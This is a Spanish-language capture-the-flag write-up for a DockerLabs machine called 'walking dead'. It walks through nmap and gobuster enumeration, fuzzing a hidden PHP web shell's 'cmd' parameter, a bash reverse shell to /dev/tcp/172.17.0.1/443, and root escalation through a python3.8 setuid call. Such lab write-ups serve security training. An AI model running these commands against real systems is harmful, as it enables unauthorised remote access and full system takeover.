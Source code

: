 nmap: 22,80

![[dockerlabs/facil/walking dead/nmap.png]]

entramos a la pagina y tenemos esto

![[dockerlabs/facil/walking dead/pagina1.png]]

y en el código fuente esto:

![[dockerlabs/facil/walking dead/fuente.png]]

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![[dockerlabs/facil/walking dead/backup.png]]

un hidden

![[dockerlabs/facil/walking dead/hidden.png]]

probamos el hidden con el shell.php que nos mostro el código fuente

![[shell.php.png]]

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![[shell1.png]]

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![[dockerlabs/facil/walking dead/conexion.png]]

ahora escalamos a root, encontramos esto

![[escalada 1.png]]

igual encontramos esto

![[cat1.png]]

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![[rooot.png]]

y somos root! 